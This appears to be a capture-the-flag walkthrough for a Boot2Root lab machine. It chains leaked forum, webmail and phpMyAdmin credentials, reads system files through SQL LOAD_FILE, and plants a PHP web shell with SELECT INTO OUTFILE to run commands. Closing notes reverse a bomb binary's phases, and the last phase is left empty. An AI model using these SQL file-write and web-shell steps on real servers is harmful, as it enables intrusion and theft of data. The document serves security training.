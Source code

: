 

# REPORT

On the port `80` we have a apache2 server serving a single page application. 

On the port `443` we have a apache2 server serving 3 services: 
- `/forum/`, wich is a fourm powered by `mylittleforum`
- `/webmail/` wich is a web mail application powered by `squirrelMail` 
- `/phpmyadmin/` which is `phpmyadmin` pluged to the `mylittleforum` database  


### FORUM

In the `forum` we found an interesting post where credentials are included: `lmezard:!q\]Ej?*5K5cy*AJ` </br>
These credentials allows us to connect to the `forum` as `lmezard`. In the profile settings we get the mail address of the account: `laurie@borntosec.net` </br>

### WEB MAIL

With this address and the password found we can acceed to the account of `laurie` in the web server mail `laurie@borntosec.net:!q\]Ej?*5K5cy*AJ` </br>
A mail from `qudevide` gives us the credentials of `phpmyadmin`: `root:Fg-'kKXBj87E:aJ$` </br>

### PHPMYADMIN

Once connected to the `phpmyadmin` pannel we have access to the database `forum_db` corresponding to the database of the `forum`. 
We get users's informations like:
- Users's mail addresses
- Users's hashed passwords 

...
We can connect to the `admin` account by editing the hashe with the same hash as `lmezard` which is a known password. 
...


In the `phpmyadmin` pannel we can make `SQL queries` as the `mysql` user. 
Allowing us to read and write on the machine like reading the file `/etc/passwd` giving the users on the machine:
```
ft_root:x:1000:1000:ft_root,,,:/home/ft_root:/bin/bash
lmezard:x:1001:1001:laurie,,,:/home/lmezard:/bin/bash
laurie@borntosec.net:x:1002:1002:Laurie,,,:/home/laurie@borntosec.net:/bin/bash
laurie:x:1003:1003:,,,:/home/laurie:/bin/bash
thor:x:1004:1004:,,,:/home/thor:/bin/bash
zaz:x:1005:1005:,,,:/home/zaz:/bin/bash
```
- The apache2's configuration file gives us the location of the directories served by the server: `SELECT LOAD_FILE('/etc/apache2/sites-enabled/000-default')`
```
<VirtualHost *:443>
ServerAdmin webmaster@localhost
...
Alias /phpmyadmin /usr/share/phpmyadmin
...
Alias /forum /var/www/forum
...
Alias /webmail /usr/share/squirrelmail
...
```

### WEB SHELL (/forum)

Because the `mysql` user writing's permission are limited. We `fuzz` on the `/forum` directory to find directories where we can write a `web shell` in `php`:
```
ffuf -w /opt/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -u https://192.168.56.112/forum/FUZZ -fs 288
...
templates_c             [Status: 301, Size: 330, Words: 20, Lines: 10, Duration: 4ms]
:: Progress: [220559/220559] :: Job [1/1] :: 10000 req/sec :: Duration: [0:00:32] :: Errors: 0 ::
```

We can create files on the directory `/forum/templates_c/` with the SQL Query: 
```
SELECT '<?php system($_GET["cmd"]); ?>' INTO OUTFILE '/var/www/forum/templates_c/script.php'
...
https://192.168.56.112/forum/templates_c/script.php?cmd=whoami
```

In the `/home` directory we found the folder `LOOKATME` containing the file `password`:
```
https://192.168.56.112/forum/templates_c/script.php?cmd=cat%20/home/LOOKATME/password
...
lmezard:G!@M6f4Eatau{sF" 
```

### FTP

The credentials are for the ftp account of `lmezard`. After accessing connecting to it we found 2 files:
```
ftp> dir
-rwxr-x---    1 1001     1001           96 Oct 15  2015 README
-rwxr-x---    1 1001     1001       808960 Oct 08  2015 fun

$ cat README 
Complete this little challenge and use the result as password for user 'laurie' to login in ssh

$ file fun          
fun: POSIX tar archive (GNU)
```
### Laurie ssh creds (challenge pcap)

The tar archive contains `750` files with the extension `.pcap`. These files are actually `ASCII text` files: `for f in *.pcap; do file $f ; done`:
```
...
YDMXW.pcap: ASCII text
YJR5Z.pcap: C source, ASCII text
...
```

Each one of them contains a line in c code and a number identifying the file: 
```
$ cat YJR5Z.pcap       
#include <stdio.h>

//file1 
```

With a simple script we can gather the code into a simple c program, compile and execute it. It gives us a string to cipher with the `SHA256` algorithm to get the ssh's password of `laurie`:
```
$ gcc main.c
$ ./a.out   
MY PASSWORD IS: Iheartpwnage
Now SHA-256 it and submit
$ echo -n "Iheartpwnage" | sha256sum         
330b845f32185747e4f8ca15d40ca59796035c89ea809fb5d30f4da83ecf45a4  -
```

We can now connect to the machine as `laurie` with the creds `laurie:330b845f32185747e4f8ca15d40ca59796035c89ea809fb5d30f4da83ecf45a4`


```
--------  DEPHUSE 1  ----------

Public speaking is very easy. -> directly defined in the condition

--------  DEPHUSE 2  ----------

1 2 6 24 120 720 -> t[i + 1] = (i + 1) * t[i] or break condition 0x08048b7e

--------  DEPHUSE 3  ----------

1 b 214 -> use hint indicate 'b' so take the first case (case 1 and local_8 = 214)

--------  DEPHUSE 4  ----------

9 

-> make simple script 

#include <stdio.h>

int function4(int param) {
        int v1;
        int v2;
        if (param < 2)
                v2 = 1;
        else {
                v1 = function4(param - 1);
                v2 = function4(param - 2);
                v2 += v1;
        }
        return v2;
}

int main(void) {


        for (int i = 0; i < 10; i++)
                printf("i = %d  - v = %d \n", i, function4(i));
        return 1;
}


--------  DEPHUSE 5  ----------

o`ekma

from this string 'isrveawhobpnutfg' the last 4 bytes of the char input are added to this char
local_s = "isrveawhobpnutfg"
local_s[input[0] & 0xf] = g
local_s[input[1] & 0xf] = i
....
15 -> g -> o
0 -> i -> ` 
5 -> a -> e 01100101
10 -> n -> k 01101011
13 -> t -> m 01101101
1 -> s -> a

--------  DEPHUSE 6  ----------
